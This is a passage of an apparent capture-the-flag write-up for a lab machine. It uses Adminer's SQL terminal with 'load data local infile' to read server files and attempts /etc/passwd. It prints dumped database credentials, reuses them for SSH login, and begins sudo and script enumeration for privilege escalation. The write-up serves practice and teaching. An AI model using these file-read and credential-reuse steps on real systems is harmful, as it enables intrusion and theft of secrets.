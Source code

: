 * **Fifth**, dump remote server database by running this command from `SQL Command` terminal in adminer

	  load data local infile '/var/www/html/index.php'
	  into table test
	  fields terminated by "/n"

> try to read `/etc/passwd` got an error

> reading `/var/www/html/index.php` dump 123 rows*

* **Sixth**, read dumped `adminer.php` file in SQL command terminal in adminer

	  SELECT * from ladmirer.test;
	
	**_interesting data inside dump_**

	  $servername = \"localhost\";
	  $username = \"waldo\";
	  $password = \"&<h5b~yK3F#{PaPB&dA}{H>\";
	  $dbname = \"admirerdb\";


* login into ssh with found creds `waldo:&<h5b~yK3F#{PaPB&dA}{H>` 

# Local Enumeration

- check sudo rights for user waldo

	  waldo@admirer:~$ sudo -l
	  [sudo] password for waldo: 
	  Matching Defaults entries for waldo on admirer:
	      env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

	  User waldo may run the following commands on admirer:
	      (ALL) SETENV: /opt/scripts/admin_tasks.sh

	**_what i have here_**
	* i can set environment variables for `/opt/scripts/admin_tasks.sh`
	* i can run `/opt/scripts/admin_tasks.sh` as root

- review `/opt/scripts/`

	  waldo@admirer:/opt/scripts$ ls -la
	  -rwxr-xr-x 1 root admins 2613 Dec  2  2019 admin_tasks.sh
	  -rwxr----- 1 root admins  198 Dec  2  2019 backup.py

    - in `admin_tasks.sh`

		  backup_web()
		  {
		      if [ "$EUID" -eq 0 ]
		      then
			  echo "Running backup script in the background, it might take a while..."
			  /opt/scripts/backup.py &
		      else
			  echo "Insufficient privileges to perform the selected operation."
		      fi
		  }
